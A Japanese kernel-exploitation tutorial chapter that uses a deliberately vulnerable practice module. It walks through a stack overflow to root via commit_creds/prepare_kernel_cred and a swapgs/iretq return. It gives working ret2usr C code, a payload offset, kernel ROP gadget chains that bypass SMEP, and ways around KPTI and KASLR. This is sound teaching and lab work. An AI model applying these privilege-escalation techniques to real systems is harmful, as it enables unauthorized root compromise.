



前節ではHolsteinモジュールにStack Overflowを見つけ、脆弱性を利用してRIPを取れることを確認しました。この節ではこれをLPEに繋げる方法と、さまざまなセキュリティ機構を回避する方法を学びます。

<div class="column" title="目次">
<!-- toc --><br>
</div>

## 権限昇格の方法
権限昇格の方法にはいろいろありますが、最も基本的な手法は`commit_creds`を使う方法です。これは、カーネルがroot権限のプロセスを作る時に実行する処理と同じことを実行する方法で、非常に自然な考え方です。
root権限を取った後にもう1つ重要なのが、ユーザー空間に戻ることです。今カーネルモジュールをexploitしているのでコンテキストはカーネルですが、最終的にはユーザー空間に戻ってroot権限のシェルを取る必要があるので、クラッシュせずにユーザー空間に戻る必要があります。
まずはこれらの理論的部分について説明します。

### prepare\_kernel\_credとcommit\_creds
すべてのプロセスには権限が割り当てられます。これは[**cred構造体**](https://elixir.bootlin.com/linux/v5.14.9/source/include/linux/cred.h#L110)と呼ばれる構造体でヒープ上で管理されています。各プロセス（タスク）は[**task_struct構造体**](https://elixir.bootlin.com/linux/v5.14.9/source/include/linux/sched.h#L661)という構造体で管理され、その中にcred構造体へのポインタがあります。
```c
struct task_struct {
    ...
	/* Process credentials: */

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;
    ...
}
```
cred構造体はプロセスが生成されるタイミングなどで作られるのですが、それを担う関数として[**`prepare_kernel_cred`**](https://elixir.bootlin.com/linux/v5.14.9/source/kernel/cred.c#L719)というKernel Exploitで非常に重要な関数があります。この関数を少しだけ読んでみましょう。
```c
/* 引数としてtask_struct構造体へのポインタを取る */
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
	const struct cred *old;
	struct cred *new;

	new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
	if (!new)
		return NULL;

	kdebug("prepare_kernel_cred() alloc %p", new);

	if (daemon)
		old = get_task_cred(daemon);
	else
		old = get_cred(&init_cred);

    ...

    return new;
}
```
第一引数にNULLを与えて`prepare_kernel_cred`を呼んだ時の挙動を追います。まず以下のコードでcred構造体が新たに確保されます。
```c
new = kmem_cache_alloc(cred_jar, GFP_KERNEL);
```
そして第一引数`daemon`がNULLのとき、次のコードで`init_cred`と呼ばれるcred構造体のデータが引き継がれます。
```c
old = get_cred(&init_cred);
```
その後`old`の正当性を検証し、`old`から`new`に適当にメンバを引き継いでいきます。

`prepare_kernel_cred(NULL)`により、`init_cred`を使ったcred構造体が生成されます。では[`init_cred`の定義](https://elixir.bootlin.com/linux/v5.14.9/source/kernel/cred.c#L41)も見てみましょう。
```c
/*
 * The initial credentials for the initial task
 */
struct cred init_cred = {
	.usage			= ATOMIC_INIT(4),
#ifdef CONFIG_DEBUG_CREDENTIALS
	.subscribers		= ATOMIC_INIT(2),
	.magic			= CRED_MAGIC,
#endif
	.uid			= GLOBAL_ROOT_UID,
	.gid			= GLOBAL_ROOT_GID,
	.suid			= GLOBAL_ROOT_UID,
	.sgid			= GLOBAL_ROOT_GID,
	.euid			= GLOBAL_ROOT_UID,
	.egid			= GLOBAL_ROOT_GID,
	.fsuid			= GLOBAL_ROOT_UID,
	.fsgid			= GLOBAL_ROOT_GID,
	.securebits		= SECUREBITS_DEFAULT,
	.cap_inheritable	= CAP_EMPTY_SET,
	.cap_permitted		= CAP_FULL_SET,
	.cap_effective		= CAP_FULL_SET,
	.cap_bset		= CAP_FULL_SET,
	.user			= INIT_USER,
	.user_ns		= &init_user_ns,
	.group_info		= &init_groups,
	.ucounts		= &init_ucounts,
};
```
コードを見れば分かるように、`init_cred`はまさにroot権限のcred構造体になります。

これでroot権限のcred構造体が作れそうです。次にこの権限を現在のプロセスに設定してやる必要があります。その役割を果たすのが[`commit_creds`関数](https://elixir.bootlin.com/linux/v5.14.9/source/kernel/cred.c#L449)になります。
```c
int commit_creds(struct cred *new)
```

したがって、
```c
commit_creds(prepare_kernel_cred(NULL));
```
を呼び出すのがKernel Exploitで権限昇格するための1つの手法となります。

### swapgs: ユーザー空間への復帰
`prepare_kernel_cred`と`commit_creds`でめでたくroot権限が取れたのですが、それで終わりではありません。
ROP chainが終わった後、何事もなかったかのようにユーザー空間に復帰してシェルを取る必要があります。せっかくroot権限を取ってもクラッシュしたり、プロセスが終了したりしては意味がありません。

ROPというのは本来保存されていたスタックフレームを破壊してchainを書き込むので、元に戻るというのは直感的には非常に困難です。しかし、Kernel Exploitではあくまで脆弱性を発火させるプログラム（プロセス）は我々が作るので、ROP終了後にRSPをユーザー空間に戻し、RIPをシェルを取る関数に設定してやればユーザー空間に戻れます。
そもそもユーザー空間からカーネル空間に移動する方法ですが、これはCPUの命令が特権モードを切り替えることで実現されます。ユーザー空間からカーネル空間に行く方法は通常システムコール`syscall`と割り込み`int`だけです。そして、カーネル空間からユーザー空間に戻るためには通常`sysretq`, `iretq`という命令が使われます。`sysretq`より`iretq`の方が単純ですので、Kernel Exploitでは普通`iretq`を使います。また、カーネルからユーザー空間に戻る際、カーネルモードのGSセグメントからユーザーモードのGSセグメントに切り替える必要があります。このためにIntelでは`swapgs`命令が用意されています。
流れとしては`swapgs`と`iretq`を順番に呼び出せば良いです。`iretq`を呼び出すとき、スタックには戻り先のユーザー空間の情報を次のように積んでおく必要があります。

<center>
  
</center>

ユーザー空間のRSP, RIPに加え、CS,SS,RFLAGSもユーザー空間のものに戻す必要があります。RSPはどこでも良いですし、RIPはシェルを起動する関数にでも設定しておけば良いです。残りのレジスタはもともとユーザー空間にいたときの値を使えば良いので、次のようにレジスタの値を保存する補助関数を用意しておきましょう。（RSPも保存しておきました。）
```c
static void save_state() {
  asm(
      "movq %%cs, %0\n"
      "movq %%ss, %1\n"
      "movq %%rsp, %2\n"
      "pushfq\n"
      "popq %3\n"
      : "=r"(user_cs), "=r"(user_ss), "=r"(user_rsp), "=r"(user_rflags)
      :
      : "memory");
}
```
ユーザー空間にいる間にこれを呼んでおき、`iretq`を呼ぶタイミングでこの値を使えるようにしておけば良いです。

## ret2user (ret2usr)
ここまで説明してきた理論を使って、いよいよ権限昇格を実践してみます。

まずは最も基礎的な手法であるret2userについて説明します。今回SMEPが無効なので、ユーザー空間のメモリに置いてあるコードをカーネル空間から実行できます。つまり、ここまで説明した`prepare_kernel_cred`, `commit_creds`, `swapgs`, `iretq`の流れをそのままC言語で書いておけばOKです。
```c
static void win() {
  char *argv[] = { "/bin/sh", NULL };
  char *envp[] = { NULL };
  puts("[+] win!");
  execve("/bin/sh", argv, envp);
}

static void restore_state() {
  asm volatile("swapgs ;"
               "movq %0, 0x20(%%rsp)\t\n"
               "movq %1, 0x18(%%rsp)\t\n"
               "movq %2, 0x10(%%rsp)\t\n"
               "movq %3, 0x08(%%rsp)\t\n"
               "movq %4, 0x00(%%rsp)\t\n"
               "iretq"
               :
               : "r"(user_ss),
                 "r"(user_rsp),
                 "r"(user_rflags),
                 "r"(user_cs), "r"(win));
}

static void escalate_privilege() {
  char* (*pkc)(int) = (void*)(prepare_kernel_cred);
  void (*cc)(char*) = (void*)(commit_creds);
  (*cc)((*pkc)(0));
  restore_state();
}
```
これらの処理は簡単なKernel Exploitでは頻出なので、各自自分に合ったコードでテンプレートとして持っておきましょう。`main`関数の先頭にでも`save_state`を呼ぶ処理を追加しておきましょう。

`escalate_privilege`関数内で`prepare_kernel_cred`と`commit_creds`という関数ポインタが必要になりますが、今回KASLRが無効なのでこの値は固定のはずです。実際にこれらの関数のアドレスを取得し、コード中に書いておきましょう。
```
/ # grep prepare_kernel_cred /proc/kallsyms 
ffffffff8106e240 T prepare_kernel_cred
/ # grep commit_creds /proc/kallsyms 
ffffffff8106e390 T commit_creds
```

さて、あとは脆弱性を使って`escalate_privilege`関数を呼べば終わりです。適当に`escalate_privilege`のポインタを大量に書き込んでも良いですが、後々ROPをすることになるので、リターンアドレスの正確なオフセットを把握しておきましょう。
オフセットはカーネルモジュールをIDAなどで読んで計算しても良いですが、せっかくなのでgdbを使って脆弱性が発火する部分を確認しましょう。

`module_write`中で`_copy_from_user`を呼んでいる箇所をIDAなどで見ると、アドレスは0x190です。`/proc/modules`から得たベースアドレスと足してブレークポイントを付けた状態でwriteを呼んでみます。
書き込み先のRDIから0x400先は次のようになっています。
```
pwndbg> x/8xg 0xffffc90000413aa8 + 0x400
0xffffc90000413ea8:     0xffffc90000413ee8      0xffffffff8113d4d2
0xffffc90000413eb8:     0xffffffff8114cd87      0xffff888003149600
0xffffc90000413ec8:     0xffff888003149600      0x00007ffe564e04d0
0xffffc90000413ed8:     0x0000000000000420      0x0000000000000000
```
さらにretまで進めると、
```
pwndbg> x/8xg 0xffffc90000413ea8
0xffffc90000413ea8:     0x4141414141414141      0x4141414141414141
0xffffc90000413eb8:     0x4141414141414141      0x4141414141414141
0xffffc90000413ec8:     0xffff888003149600      0x00007ffe564e04d0
0xffffc90000413ed8:     0x0000000000000420      0x0000000000000000
```
となっており、RSPは0xffffc90000413eb0を指しています。
```
 ► 0xffffffffc000020e    ret    <0x4141414141414141>

*RSP  0xffffc90000413eb0 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAA'
```
したがって、0x408バイトだけゴミデータを入れた後からRIPを制御できそうです。
ということで、次のようにexploitを変更してみました。
```c
  char buf[0x410];
  memset(buf, 'A', 0x410);
  *(unsigned long*)&buf[0x408] = (unsigned long)&escalate_privilege;
  write(fd, buf, 0x410);
```
最終的なexploitは[ここ](exploit/ret2usr.c)に置いておきます。

`module_write`のret命令で止めてみると、`escalate_privilege`に到達していることが分かります。
```
 ► 0xffffffffc000020e    ret    <0x401226>
    ↓
   0x401226              endbr64 
   0x40122a              push   rbp
   0x40122b              mov    rbp, rsp
   0x40122e              sub    rsp, 0x10
   0x401232              mov    rax, qword ptr [rip + 0x402f]
   0x401239              mov    qword ptr [rbp - 0x10], rax
   0x40123d              mov    rax, qword ptr [rip + 0x402c]
   0x401244              mov    qword ptr [rbp - 8], rax
   0x401248              mov    rax, qword ptr [rbp - 0x10]
   0x40124c              mov    edi, 0
```

<div class="balloon">
  <div class="balloon-image-left">
    牛さん
  </div>
  <div class="balloon-text-right">
    カーネル空間ではnextiを実行しても、次の命令で止まらないことがあるよ。そういう時はstepiを試してみるか、少し先にブレークポイントを貼ると良いかも？
  </div>
</div>

正しくexploitが書けていれば`prepare_kernel_cred`と`commit_creds`を通過します。`restore_state`の中もステップインで見てみましょう。`iretq`を呼ぶ際のスタックは次のようになります。
```
pwndbg> x/5xg $rsp
0xffffc90000413e90:     0x0000000000401139      0x0000000000000033
0xffffc90000413ea0:     0x0000000000000246      0x00007ffd143837a0
0xffffc90000413eb0:     0x000000000000002b
```
stepiで`win`関数に飛んでいれば成功です。
```
/ # ./pwn 
[+] win!
/ # 
```
今はもともとroot権限なので成功したか分かりませんが、とりあえずユーザー空間に戻れています。
では変更した設定(S99pawnyable)を元に戻し、一般ユーザーからexploitを実行してみましょう。

<center>
  
</center>

権限昇格に成功しました！
初めて知る知識が多くて少し難しかったかもしれませんが、これからさらにヒープや競合などの脆弱性を扱っていくうちに、どんな脆弱性でもほとんどやることは同じなので、実は結構簡単だと気付くことになります。お楽しみに！

## kROP
次にSMEPを有効化してみましょう。qemu起動時のcpu引数に`smep`を付けてみましょう。
```
-cpu kvm64,+smep
```
この状態で先程のret2userのexploitを動かしてみましょう。

<center>
  
</center>

クラッシュしてしまいました😢
「unable to execute userspace code (SMEP?)」となっており、SMEPによりユーザー空間のコードが実行できなくなっていることが分かります。

これはユーザー空間におけるNX(DEP)に非常に似ています。ユーザー空間のデータを読み書きはできますが、実行はできなくなりました。したがって、NXを回避するのと同様に、SMEPはROPにより回避可能です。カーネル空間でのROPをkROPと呼ぶことが多いです。

Kernel Exploitに挑戦している皆さんならret2userでやった処理をROPにするのも簡単だと思います。実際ROP chainを書くにあたり特に注意する点はありませんが、ROP gadgetを探す部分までは一緒にやっていきましょう。
まずLinuxカーネルのROP gadgetを探すには、bzImageからvmlinuxというカーネルのコアになるELFを取り出す必要があります。これには公式で[extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux)というシェルスクリプトが提供されているので利用しましょう。
```
$ extract-vmlinux bzImage > vmlinux
```
あとはお好みのツールを使ってROP gadgetを探します。
```
$ ropr vmlinux --nosys --nojop -R '^pop rdi.+ret;'
...
0xffffffff8127bbdc: pop rdi; ret;
...
```
出力されるアドレスは絶対アドレスになっています。この値はKASLRを無効にした際のベースアドレス（0xffffffff81000000）に相対アドレスを足したものなので、例えば上の例だと0x27bbdcが相対アドレスになります。今回はKASLRが無効なので出力されたアドレスをそのまま使えますが、KASLRが有効な場合は相対アドレスを使うように注意しましょう。
Linuxカーネルはlibcなどよりも膨大な量のコードなので、基本的に任意の操作ができるほどのROP gadgetがあります。今回は以下のgadgetを使いましたが、デバッグの練習も兼ねて自分の好きなROP chainを組んでみてください。
```
0xffffffff8127bbdc: pop rdi; ret;
0xffffffff812ea083: pop rcx; ret;
0xffffffff8160c96b: mov rdi, rax; rep movsq [rdi], [rsi]; ret;
0xffffffff8160bf7e: swapgs; ret;
```
最後に`iretq`が必要ですが、これは通常のツールでは探してくれないのでobjdumpなどで探しましょう。
```
$ objdump -S -M intel vmlinux | grep iretq
ffffffff810202af:       48 cf                   iretq
...
```
ROP chainの書き方は自由ですが、筆者は次のように書いています。gadgetを途中で追加したり削除したりしてもオフセットの値を変更しなくて良いため、おすすめです。
```c
unsigned long *chain = (unsigned long*)&buf[0x408];
*chain++ = rop_pop_rdi;
*chain++ = 0;
*chain++ = prepare_kernel_cred;
...
```
ROP chainに直すだけなので、各自でexploitを書いてみてください。exploitの例は[ここ](exploit/krop1.c)からダウンロードできます。

ROP chainがなぜか動かないけどデバッグするのが面倒な場合は、ユーザーランドのexploitと同様に適当なアドレスを入れてクラッシュメッセージを見て、そこまで実行できているかデバッグするのが楽です。
```
*chain++ = rop_pop_rdi;
*chain++ = 0;
*chain++ = 0xdeadbeefcafebabe;
...
```
この際**必ずカーネルやユーザーランドでマップされていないアドレスを使う**ようにしましょう。

<div class="balloon">
  <div class="balloon-image-left">
    牛さん
  </div>
  <div class="balloon-text-right">
    おすすめはユーザー空間からもカーネル空間からも通常使われない0xdeadbeefcafebabeだよ。
  </div>
</div>


ROPが正しく動けばSMEPを回避してroot権限が取れるはずです。

今回のROP chainはカーネル空間のスタックで動いているので、実はSMAPを有効にしてもexploitはそのまま動きます。試してみてください。

## KPTIの扱い
次にSMAP, SMEP, KPTIを有効にした状態でexploitしてみましょう。
KPTI自体はこのような一般的な脆弱性に対する緩和策ではなく、Meltdownという特定のサイドチャネル攻撃に対応するための緩和策です。そのため、これまで使ってきたexploit手法に影響はありませんが、KPTIを有効にした状態でexploitを実行すると次のようにユーザー空間でクラッシュしてしまいます。

<center>
  
</center>

ユーザー空間で死んでいるので、`swapgs`からの`iretq`でユーザー空間には戻れているのですが、KPTIの影響でページディレクトリがカーネル空間のままなので、ユーザー空間のページが読めない状態になっています。
[セキュリティ機構](../introduction/security)の節でも書いたように、ユーザーランドに戻る前にCR3レジスタに0x1000をORしておく必要があります。「そんなgadgetあるのか？」と思うかもしれませんが、この処理はカーネルからユーザー空間に戻る正規の処理に必ず存在しているはずなので、100%見つかります。
具体的には、[`swapgs_restore_regs_and_return_to_usermode`](https://elixir.bootlin.com/linux/v5.10.7/source/arch/x86/entry/entry_64.S#L570)マクロで実装されています。重要なのは以下の部分です。
```nasm
	movq	%rsp, %rdi
	movq	PER_CPU_VAR(cpu_tss_rw + TSS_sp0), %rsp
	UNWIND_HINT_EMPTY
	
    /* Copy the IRET frame to the trampoline stack. */
	pushq	6*8(%rdi)	/* SS */
	pushq	5*8(%rdi)	/* RSP */
	pushq	4*8(%rdi)	/* EFLAGS */
	pushq	3*8(%rdi)	/* CS */
	pushq	2*8(%rdi)	/* RIP */

	/* Push user RDI on the trampoline stack. */
	pushq	(%rdi)

    /*
	 * We are on the trampoline stack.  All regs except RDI are live.
	 * We can do future final exit work right here.
	 */
	STACKLEAK_ERASE_NOCLOBBER

	SWITCH_TO_USER_CR3_STACK scratch_reg=%rdi

	/* Restore RDI. */
	popq	%rdi
	SWAPGS
	INTERRUPT_RETURN
```
最初にpushしているのは後述しますが、`iretq`に向けてスタックを整備しているものです。その後`SWITCH_TO_USER_CR3_STACK`を使ってCR3を更新しています。このマクロのアドレスを調べましょう。
```
/ # cat /proc/kallsyms | grep swapgs_restore_regs_and_return_to_usermode
ffffffff81800e10 T swapgs_restore_regs_and_return_to_usermode
```
なお、シンボルが消えている場合はobjdumpなどでCR3に対する操作（rdiを使って操作している箇所）を探せば良いです。
さて、ROP chainの中でこの`swapgs_restore_regs_and_return_to_usermode`のどこにジャンプするかですが、目的はCR3の更新なのでひと目見ると次の箇所に飛べばページディレクトリをユーザー空間に戻してくれそうです。

<center>
  
</center>

しかし、CR3をユーザー空間のものに更新したらカーネル空間のスタックにあるデータはもはや参照できないので、最後のpopやiretqでデータを読み込むことはできません。
実は（当たり前と言えば当たり前ですが）このコンテキストスイッチを実現するためにユーザー空間からもカーネル空間からもアクセスが許可されている場所がいくつかあります。先程の
```nasm
	movq	%rsp, %rdi
	movq	PER_CPU_VAR(cpu_tss_rw + TSS_sp0), %rsp
	UNWIND_HINT_EMPTY
```
の部分は事前にスタックをその場所に調整していたものです。
そして、続くpushは本来`iretq`に渡るはずだったカーネルのスタックにあったデータを、CR3更新後にもアクセス可能な領域にコピーしているコードです。したがって、ROP中では次の箇所にジャンプする必要があります。

<center>
  
</center>

最後のpopに気をつけて、KPTIのもとでも動くkROPを自分の手で完成させてみてください。

## KASLRの回避
ここまでKASLRを無効化してきましたが、KASLR有効だとexploit可能でしょうか。
今回扱ったStack Overflow以外にも脆弱性は複数存在するのでアドレスリークは可能ですが、いずれもヒープに関する知識が必要になります。ヒープの話は次章以降で登場するので、KASLRを回避してkROPするのは次回以降の演習で登場させることにします。

ところで、KASLRのエントロピーはどの程度なのでしょうか。
カーネルのアドレスランダム化はページテーブルレベルで行われ、`kaslr.c`の[`kernel_randomize_memory`](https://elixir.bootlin.com/linux/v5.10.7/source/arch/x86/mm/kaslr.c#L64)関数で実装されています。
カーネルは0xffffffff80000000から0xffffffffc0000000までの1GBのアドレス空間を確保しています。したがって、KASLRが有効でも0x810から0xc00までの、たかだか0x3f0通り程度のベースアドレスしか錬成されません。<!-- TODO:要出展 -->

<center>
  
</center>

<div class="balloon">
  <div class="balloon-image-left">
    牛さん
  </div>
  <div class="balloon-text-right">
    もしKASLRが有効なのにアドレスリークが不可能な問題が問題が出たら、総当りで解けるということだね。まったく実用的ではないけど、CTFでは出題されたことがあるよ。(0CTF Finals 2021)
  </div>
</div>

さて、ヒープが関わるのでKASLRの演習は次回以降と説明しましたが、SMAP,SMEP,KPTIを無効にしてKASLRだけ有効にした場合、ここまでの知識でもexploitを書けます。


----

<div class="column" title="例題１">
  練習問題LK01のスタックオーバーフロー脆弱性のみを利用して、次の各セキュリティ機構の組み合わせでROPをせずret2userのみで権限昇格は可能でしょうか。可能な場合はexploitを書き、不可能な場合は理由を説明してください。<br>
  (1) SMAP無効 / SMEP無効 / KPTI有効<br>
  (2) SMAP有効 / SMEP無効 / KPTI無効<br>
</div>

<div class="column" title="例題２">
  <a href="../introduction/security#smep-supervisor-mode-execution-prevention">セキュリティ機構</a>の節で見たように、SMEPはCR4レジスタの21ビット目で制御されます。kROPでCR4レジスタの21ビット目を0にすることでSMEPを無効化し、ret2userで権限昇格できるでしょうか？
  可能な場合はexploitを書き、不可能な場合は理由を説明してください。
</div>
